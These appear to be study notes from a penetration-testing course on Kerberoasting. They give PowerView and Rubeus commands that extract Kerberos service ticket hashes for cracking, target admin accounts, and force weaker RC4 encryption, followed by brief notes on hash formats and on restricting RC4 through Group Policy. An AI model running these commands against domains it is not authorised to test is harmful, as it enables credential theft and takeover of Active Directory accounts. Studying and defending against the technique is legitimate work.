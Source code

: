 ### Exporting All Tickets to a CSV File
Command:
```
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```

### Viewing the Contents of the .CSV File
Command:
```
cat .\ilfreight_tgs.csv
```

## Using Rubeus
### Running Rubeus
Command:
```
.\Rubeus.exe
```
- Scroll menu; options: Kerberoast/output to file, alt creds, PTT combo, opsec (filter AES), date range, limit tickets, AES roast.

### Using the /stats Flag
Command:
```
.\Rubeus.exe kerberoast /stats
```

### Rubeus to Request Admin Account
Command:
```
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```

### Rubeus Using the /tgtdeleg Flag
Command (force RC4):
```
.\Rubeus.exe kerberoast /tgtdeleg /user:testspn /nowrap
```

# About Kerberoasting Encryption - The Difference between RC4 and AES
- Attacks request RC4-encrypted TGS (etype 23); weaker/easier crack. Hashes: $krb5tgs$23$*
- AES-128 (etype 17)/AES-256 (etype 18): Slower crack ($krb5tgs$18$*), but possible w/ weak pws.

# Defending Against Kerberoasting
## Restrict RC4
- Config via GPO: Computer Config > Policies > Win Settings > Sec Settings > Local Policies > Sec Options > Network sec: Config enc types allowed for Kerberos.
- Limit RC4 enables downgrade; remove AES weakens sec; disable RC4 may break - test changes.
- Diagram: GPO settings screenshot.
